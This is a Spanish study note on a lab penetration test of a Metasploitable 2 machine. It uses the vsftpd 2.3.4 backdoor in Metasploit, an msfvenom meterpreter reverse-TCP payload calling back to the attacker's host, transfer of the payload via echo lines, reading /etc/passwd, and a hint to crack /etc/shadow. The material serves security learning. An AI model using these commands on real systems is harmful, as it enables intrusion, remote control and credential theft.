 ```yaml
---
tags: [aprendizaje]
---
```


# Planteamiento
> [!EXAMPLE] Sea una máquina víctima
> Se plantea crear una [[Backdoor|Puerta Trasera]] por la que ejecutar [[Meterpreter]] sobre ella.
> 
> Para ello, se combinarán los pasos vistos en las notas:
> 1. [[Ejemplo de búsqueda de exploits]]
> 2. [[Ejemplo de APT con msfvenom]]

## Parámetros
Para este ejemplo, se parte con los siguientes datos.
- Máquina atacante: `192.168.56.1` -> Mi máquina local.
- Máquina víctima: `192.168.56.102` -> [[Máquina Virtual]] con [[Metasploitable 2]].
	-> Credenciales conocidas: `msfadmin:msfadmin` -> usuario y contraseña de `root`.

> [!IMPORTANT] Las máquinas están en la misma red.


# Ejecución
## 1 - Búsqueda de [[Exploit|Exploits]]
```msfconsole
search vsftpd 2.3.4
```

```msfconsole
set RHOSTS 192.168.56.102
```

```msfconsole
show payloads
```

![[Paso 1.png]]

## 2 - Elegir los [[Payload|Payloads]] compatibles
```msfconsole
show payloads
```

```msfconsole
set payload 0
```

```msfconsole
exploit
```

![[Paso 2.png]]
> [!TIP] Esto no deja rastro.

## 3 - Generar un [[APT]] con [[msfvenom]]
Correspondiente a lo que se vió en la nota [[Ejemplo de APT con msfvenom]].

```msfvenom
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=5000 -f elf > infectado2
```
![[Paso 3.png]]
> [!INFO] Cada escenario tiene una limitación
> - Tiempo de uso.
> - Tamaño de cadenas.
> - Solo texto (como este caso).
> - Solo admite [[PHP]], [[JavaScript]]...
> - . . .

> [!FAQ] ¿Qué se puede mandar en este punto?
> En este escenario, **solo texto**, por lo que envío esto para la víctima.
> 1. Se envía el texto (en este caso, **línea a línea**, por los `\n` del texto generado).
> 2. Se vuelca en un archivo `.elf`.
> 3. Se ejecuta.

> [!TIP] Se recomienda usar las **rutas completas** de los comandos
> Por ejemplo, para este caso sería `/usr/bin/base64`.

## 4 - Enviar el ejecutable infectado a la máquina víctima

```msfconsole
echo "<primera línea del archivo codificado>" > /tmp/infectado2
```

```msfconsole
echo "<resto de líneas del archivo codificado>" >> /tmp/infectado2
```
![[Paso 4.png]]
Ahora la máquina víctima cuenta con un fichero ejecutable infectado que, al ejecutarse, creará una conexión [[TCP]] con la máquina del atacante y recibirá de ella el [[Meterpreter]].

> [!TIP] Antes de que la víctima ejecute el archivo, el atacante debería haber hecho el paso siguiente para tener un puerto escuchando a la conexión.

## 5 - Esperar conexión de la [[Reverse Shell]] y ejecutar [[Meterpreter]]
![[Paso 5.png]]
> [!TIP] En este punto podría usarse [[John de Reaper]] con los resultados de `/etc/shadow`.

## Fin del [[Pentesting|test de intrusión]]
> [!DONE] Aquí termina el [[Pentesting|test de intrusión]]
> Una vez llegados a este último paso, ha quedado demostrado:
> - Se ha realizado un [[APT]].
> - El [[IDS]] no lo ha detectado.
>
> Se hace el informe, las presentaciones, presupuesto de [[Hardenning]] y de formación a los empleados de la empresa.


# Diagrama de la ejecución
Las consolas $A$, $B$ y $C$ corresponden a 3 terminales en la máquina atacante.
Se han dispuesto **desordenadas** para que las conexiones se visualicen mejor.
```mermaid
sequenceDiagram

    participant C as Consola C
    participant A as Consola A
    participant M as Metasploitable 2
    participant B as Consola B

    autonumber

    note over A: msfconsole
    A->>A: Seleccionar el módulo "Puerta Trasera"
    A->>A: Configurar las opciones
    A->>A: Seleccionar el payload
    A-->>M: Explotar

    note over B: msfconsole
    B->>B: Seleccionar el módulo "Manejador"
    B->>B: Configurar las opciones
    B->>B: Seleccionar el payload
    B->>B: Ejecutar el manejador
    loop Escuchar
        B->>B: Esperar conexión
    end

    note over C: msfvenom
    C->>C: Seleccionar el módulo de "Shell Inversa"
    C->>C: Generar ejecutable infectado
    C->>C: Codificar ejecutable
    loop Enviar línea
        C->>A: Copiar línea codificada
        A-->>M: Pegar y añadir línea codificada
    end

    A-->>M: Descodificar el ejecutable infectado
    A-->>M: Ejecutar el ejecutable infectado

    M->>M:  Crear la "Shell Inversa"
    M-->>B: Conectar la "Shell Inversa"

    note over B,M: A C C E S O
    note over B: Meterpreter
    B->>M: cat /etc/passwd
    B->>M: ls /home
    B->>M: shell
    B->>M: . . .
```
